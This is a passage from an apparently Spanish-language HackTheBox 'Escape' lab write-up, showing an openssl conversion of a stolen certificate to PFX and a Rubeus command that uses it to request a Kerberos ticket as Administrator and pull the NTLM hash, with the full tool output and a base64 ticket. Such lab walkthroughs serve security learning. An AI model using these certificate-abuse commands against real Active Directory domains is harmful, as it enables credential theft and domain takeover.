```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![](/assets/images/HTB/Escape-HackTheBox/13.webp)

Una vez convertido usaremos `rubeus.exe`, que debemos subir a la máquina junto al `certificado.pfx` para obtener el hash NTLM para poder conectarnos con evil-winrm como administrador.

```powershell
./rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```

```ruby
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\Administrator'
[*] Using domain controller: fe80::a947:6718:ea49:512e%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

```